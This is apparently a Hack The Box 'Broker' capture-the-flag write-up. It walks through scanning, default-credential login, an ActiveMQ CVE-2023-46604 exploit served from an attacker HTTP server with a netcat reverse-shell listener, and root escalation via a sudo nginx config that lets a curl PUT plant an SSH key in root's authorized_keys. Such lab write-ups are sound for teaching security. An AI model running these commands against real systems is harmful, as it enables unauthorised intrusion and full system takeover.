





# HTB Broker
## OS: Linux
## Difficulty: Easy

## Enumeration
I'll start with a port scan.

```bash
nmap -sC -sV -p- -oN outputNMAP.txt 10.129.163.176  --max-retries 1
```

```
22/tcp    open  ssh
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp    open  http
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-title: Error 401 Unauthorized
1883/tcp  open  mqtt
5672/tcp  open  amqp
|_amqp-info: ERROR: AQMP:handshake expected header (1) frame, but was 65
8161/tcp  open  patrol-snmp
40965/tcp open  unknown
61613/tcp open  unknown
61614/tcp open  unknown
61616/tcp open  unknown
```

Let's take a look at the http ports.
I'll start with port 80.

We get a login popup.



I'll try default credentials admin:admin.

And it worked.



After reading about activemq I found out it uses stomp over websockets.

```
61613/tcp open  stomp      Apache ActiveMQ
```

I'll try co connect to that socket with nc.

```bash
nc 10.129.163.176 61616
```

Result:
```
<ActiveMQ
         *
          TcpNoDelayEnabledSizePrefixDisabled   CacheSize
                                                         ProviderName  ActiveMQStackTraceEnabledPlatformDetails Java
CacheEnabledTightEncodingEnabled
                                MaxFrameSize@MaxInactivityDurationu0 MaxInactivityDurationInitalDelay'ProviderVersion       5.15.15
```

So now we know the used version.

## Foothold

After searching for CVEs affecting this version I found this https://github.com/evkl1d/CVE-2023-46604

I changed the ip address and port in the xml file and executed the exploit.
```bash
python3 -m http.server -b 10.10.14.142 # started the web server

rlwrap nc -lnvp 6666 #started listening on port 6666

python exploit.py -i 10.129.163.176 -p 61616 -u http://10.10.14.142:8000/poc.xml #run the exploit
```



And it worked. Now we can get the user flag.

```bash
cd ~
cat user.txt
```

## We got the user flag!

## Privilege Escalation

Let's see if we can run anything as the root user.
```bash 
sudo -l
```



And we can. I found a POC for privilege escalation using nginx as root user.

https://gist.github.com/DylanGrl/ab497e2f01c7d672a80ab9561a903406


We start by making a configuration file for nginx in witch the root directory is the root directory of the target and the user is root.

```
user root;
worker_processes 4;
pid /tmp/nginx.pid;
events {
        worker_connections 768;
}
http {
	server {
	        listen 1339;
	        root /;
	        autoindex on;
	        dav_methods PUT;
	}
}
```

We'll start the nginx server, and add our ssh keys to the authorized_keys file.

On target:
```
sudo nginx -c /tmp/nginx.conf
```

On host:
```bash
curl -X PUT http://10.129.163.176:1339/root/.ssh/authorized_keys -d "$(cat .ssh/id_rsa.pub)"

ssh root@10.129.163.176 -i id_rsa
```



It worked! Now let's get the root flag.

```bash
cat /root/root.txt
```

## We got the root flag!